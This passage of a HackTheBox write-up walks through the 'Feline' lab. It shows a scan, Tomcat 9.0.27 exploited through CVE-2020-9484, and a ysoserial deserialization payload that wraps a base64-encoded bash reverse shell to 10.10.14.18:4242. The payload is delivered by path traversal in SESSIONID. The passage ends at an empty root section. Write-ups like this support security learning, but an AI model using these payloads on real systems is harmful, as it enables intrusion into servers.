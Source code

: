 ```yaml
---
title: Feline HackTheBox
published: true
tags: Tomcat ysoserial java file upload CVE-2020-9484 sessionid deseralization htb
---
```


## nmap scan

```bash
# nmap -sC -sV -Ao nmap 10.10.10.205

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 12:28 CEST
Nmap scan report for 10.10.10.205
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.27
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.87 seconds
```

## open port 

- port 22 as ssh as usual
- port 8080 with a running tomat instance at version 9.0.27

## tomcat 9.0.27

A little bit of looking around reveals that the running version of tomcat seems to be vulnerable to a rce exploit. [1](https://github.com/PenTestical/CVE-2020-9484)

## file upload

Looking around and playing around reveals a file upload service at `http://10.10.10.205:8080/service/`. It gets an email address and a file. The service says it checks the file for malicious content and sends a report to the email address. 
Playing around with burpsuite reveals that the service tries to store those files under `/opt/samples/uploads` and uses `apache/commons/fileupload` to do that.

![BurpSuite FileUpload](../assets/BurpSuite-FileUpload.png "BurpSuite FileUpload")

## combining

Combining the RCE exploit with the findings of the file upload we can create a reverse shell with [ysoserial](https://github.com/frohoff/ysoserial), upload it and call it with path traversal of the `SESSIONID` field in the request. 

## exploiting user

Starting with the reverse shell file we start up with ysoserial to create the payload. Because we don't know the Verison of `apache/commons/fileupload` we have to try serveral `CommonsCollectionsX` provided by ysoserial. As reverse shell we're using a bash shell which we base64 encode. 

1. base64 of bash revese shell
```bash
# echo 'bash -i >& /dev/tcp/10.10.14.18/4242 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC80MjQyIDA+JjEK
```

2. create reverse shell with ysoserial
```bash
java -jar ysoserial-master.jar CommonsCollections2 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC80MjQyIDA+JjEK}|{base64,-d}|{bash,-i}" > shell.session
```

We take that file and upload it using the intended way. Thereupon we request any site on the tomat site and manipulate the `SESSIONID` using burpsuite. The value is equivalent to the previous found directory where the files are uploaded to + the file name of the created reverse shell subtracted by the `.session` file-extrension. This is because tomcat automatically appends `.session` to the requested `SESSIONID`.

![BurpSuite SESSIONID](../assets/BurpSuite-SessionID.png "BurpSuite SESSIONID manipulation")

Start a listener on the local maschine and forward the manipulated request. Voila! User level of Fiola. 

## root exploitation

